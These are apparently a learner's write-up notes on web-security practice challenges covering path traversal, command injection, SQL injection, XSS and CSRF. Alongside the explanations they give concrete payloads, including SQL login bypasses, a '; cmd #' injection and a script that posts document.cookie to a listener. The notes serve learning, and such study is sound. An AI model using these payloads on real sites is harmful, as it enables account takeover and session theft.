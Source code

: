 ## Path traversals:

The paths of URL's are actually like the linux directory.You
can use `..` to go back and stuff. The thing with curl is that 
it preprocccess the path, eg:
![[Pasted image 20250311120738.png]] It already has shortened the path to `/flag`. But if you write a HTTP packet yourself and send it over nc then it won't preproccess the path. eg:![[Pasted image 20250311120845.png]] Now all this is fine until the path's aren't "stripped".like: ![[Pasted image 20250312100120.png]] Over here you need to "fool" the strip function , so just fire up the python interpreter and see the functioning and all.So in this level you need to first go inside the folder and then traverse back to `/`. ## Command Injection (CMDi): developers rely on the command line shell to help with  complex operations. In these cases, a web server will execute  a Linux command and use the command's results in its operation CMDi1: ![[Pasted image 20250312103815.png]] ![[Pasted image 20250312104311.png]] This just takes in args from the URL and executes them on the shell. CMDi2: ![[Pasted image 20250312104805.png]] this can be used too when ';' is not permitted. CMDi3: You actually need to play with the program and think in a  different angle.Make a script like this and test:![[Pasted image 20250313093432.png]] CMDi4: The backtick is also a powerful command as it executes the command in between it and replaces it with it's output. But it won't be useful in our case as we don't have root perms:![[Pasted image 20250313095456.png]] So another way out of this is to use `; "cmd" #` . `;` basically  means "empty" and `#` means comment. So only  the `cmd` will be executed. ![[Pasted image 20250313095640.png]] ![[Pasted image 20250313095658.png]] CMDi5: When you can't see the output just write the desired output  to a file and then cat it later.![[Pasted image 20250313100530.png]] ![[Pasted image 20250313100538.png]] ## Authentication Bypass  A common type of vulnerability is an _Authentication Bypass_, where an attacker can bypass the typical authentication logic of an application and log in without knowing the necessary user credentials. This level challenges you to explore one such scenario. This specific scenario arises because, again, of a gap between what the developer expects (that the URL parameters set by the application will only be set by the application itself) and the reality (that attackers can craft HTTP requests to their hearts content). ## SQL injection A SQL injection, conceptually, is to SQL what a Command Injection is to the shell. In Command Injections, the application assembled a command string, and a gap between the developer's intent and the command shell's actual functionality enabled attackers to carry out actions unintended by the attacker. A SQL injection is the same: the developer builds the application to make SQL queries for certain goals, but because of the way these queries are assembled by the application logic, the resulting actions of the SQL query, when executed by the database, can be disastrous from a security perspective. It's easier to use a browser in these challenges rather than crafting packets yourself. 

SQLi 1:  It was solved by putting the password to `1 OR 1=1`. I needed to  set the username as "admin" only cuz it would be later be used to make the cookies. I couldn't use a cookie attack over here like above cuz the cookies were encrypted.So the password query didn't have any `' '` like the username field so thats why i could inject my sql into the password field. I needed to put a `1` there cuz it wanted the pin's first number to a number. So even if the pin wasn't 1 it would result to TRUE because of 1=1. 

SQLi 2:
Just like the above but over here I put the password to 
`' OR 1=1--`. `--` is a comment in SQL. baaki  reasoning is same as 
above. 

SQLi 3: 
`UNION` can be used to chain sql commands and can be used to  access other tables too. 

SQLi 4: 
Now sometimes the table name would be random, so you can view 
the `table` attribute from `sqlite_master` meta table to view the 
name of the table and then you can chain sql commands into  
that table name.

## XSS 

Semantic gaps can occur (and lead to security issues) at the 
interface of any two technologies. So far, we have seen them 
happen between:

- A web application and the file system, leading to path traversal.
- A web application and the command line shell, leading to command injection.
- A web application and the database, leading to SQL injection.
 One part of the web application story that we have not yet  looked at is the _web browser_. We will remedy that oversight  with this challenge. The class of vulnerabilities in which injections occur into  client-side web data (such as HTML) is called _Cross Site  Scripting_, or XSS for short (to avoid the name collision with  Cascading Style Sheets). Unlike the previous injections, 
where the victim was the web server itself, the victims of 
XSS are _other users of the web application_. In a typical XSS 
exploit, an attacker will cause their own code to be injected 
into (typically) the HTML produced by a web application and 
viewed by a victim user. This will then allow the attacker to 
gain some control within the victim's browser, leading to a 
number of potential downstream shenanigans.

So it's like if there is a comment box and you inject in 
something like `<script> alert(1) </script>` then who ever loads that web-
site will render that comment and will get an alert 1.

XSS1:

upon viewing the victim i notice that an input field must be 
injected in the server.![[Pasted image 20250317105939.png]]
there are already two input fields in the server so i just 
need to add one more to get the flag.
This challenge explores something called _Stored XSS_, which 
means that data that you store on the server (in this case, 
posts in a forum) will end up being shown to a victim user.

XSS2:

Same as the first except we needed to inject a js into it.

XSS3:
In the previous examples, your injection content was first 
stored in the database (as posts), and was triggered when the 
web server retrieved it from the database and sent it to the 
victim's browser. Because the data has to be stored first and 
retrieved later, this is called a _Stored_ XSS. However, the 
magic of HTTP GET requests and their URL parameters opens the 
door to another type of XSS: _Reflected_ XSS.

Reflected XSS happens when a URL parameter is rendered into a 
generated HTML page in a way that, again, allows the attacker 
to insert HTML/JavaScript/etc. To carry out such an attack, 
an attacker typically needs to trick the victim into visiting 
a very specifically-crafted URL with the right URL 
parameters. This is unlike a Stored XSS, where an attacker  
might be able to simply make a post in a vulnerable forum and  
wait for victims to stumble onto it. So basically in this i 
just needed to inject the js into the URL. 

XSS 4:  ![[Pasted image 20250318211750.png]] When the "msg" is in a textarea just open and close the tags yourself lol.

XSS 5: 
This was a tricky one ig . I still didn't understand this 
"truly". I placed a script tag in the text box and in it I 
fetched the /publish page and then when the admin logged in 
it was redirected to the publish page where all the contents
were present in the exapanded form.

XSS 6:
same as above but I just POSTed it instead of GETing it.

XSS 7:
In this I set up a server listening for connections using 
`nc -l 1337 -v` and i injected `<script>fetch("http://127.0.0.1:1337",{method:` 
`"POST",body:document.cookie});` and then i got the password and logged
in .

## CSRF
You've used XSS to inject JavaScript to cause the victim to 
make HTTP requests. But what if there is no XSS? Can you just 
"inject" the HTTP requests directly?

Shockingly, the answer is yes. The web was designed to enable 
interconnectivity across many different websites. Sites can 
embed images from other sites, link to other sites, and even 
_redirect_ to other sites. All of this flexibility represents 
some serious security risks, and there is almost nothing 
preventing a malicious website from simply directly causing a 
victim visitor to make potentially sensitive requests, such as (in our case) a `GET` request to `http://challenge.localhost/publish`!

This style of _forging_ requests _across_ sites is called _Cross 
Site Request Forgery_, or CSRF for short.

In computing, the **same-origin policy** (**SOP**) is a concept in 
the web-app application security model. Under the policy, a 
web browser permits scripts contained in a first web page to 
access data in a second web page, but only if both web pages 
have the same _origin_. An origin is defined as a combination 
of URI scheme, host name, and port number. This policy 
prevents a malicious script on one page from obtaining access 
to sensitive data on another web page through that page's 
Document Object Model (DOM)

CSRF 1: 

This is kinda hard to wrap by head around but lets go. So the
victim over here is visiting the main site(challengelocalhost)
and also visiting my site(hacker.locahost), So i first and 
foremost need to setup hacker.localhost . I did it by just
modifying the /challenge/server code , I made it redirect back
to the localhost.challenge/publish page. Ah now i get it,
the admin first logs into the challenge.localhost and then
he opens my site which gets him redirected to the /publish 
and as the browsers already had the cookies i was able to 
see the flag.

CSRF 2: 
same as above but i just had to return a POST instead of GET.
I did that by sending html code and in it there was a form
which redirected to the url in POST when a button was clicked
automattically.

CSRF 3:
This too was straight forward , I just setup a server and 
redirected the victim to the /emp...?msg=<script> alert(69)
</script> . 

CSRF 4: 
This was a level combining the aspect of XSS with CSRF. I 
setup a server which send an injection of getting the cookies
to /emp.. . I just used `fetch(document.cookie)` to get the cookies, 
the cookies would be present in the server logs. Then after 
getting the cookies I just logged in and got the flag.
